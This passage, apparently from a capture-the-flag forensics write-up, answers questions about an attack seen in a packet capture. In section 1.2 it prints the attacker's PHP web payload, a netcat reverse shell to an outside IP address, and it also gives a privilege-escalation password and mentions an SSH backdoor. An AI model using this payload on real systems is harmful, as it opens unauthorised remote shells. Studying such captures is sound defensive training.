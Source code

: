 ## 1.2 - What payload did the attacker use to gain access?

We can see the payload in **"tcp.stream eq 1"**

<p align="center"><img src="./files/q12.png"></p>

Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

## 1.3 - What password did the attacker use to privesc?

If you go to **"tcp.stream eq 3"**, you can see the commands that the attacker has executed via the reverse shell.

<p align="center"><img src="./files/q13.png"></p>

Answer: `whenevernoteartinstant`

## 1.4 - How did the attacker establish persistence?

If you scroll down a bit, you can see that the attacker used a github link to clone a ssh-backdoor.
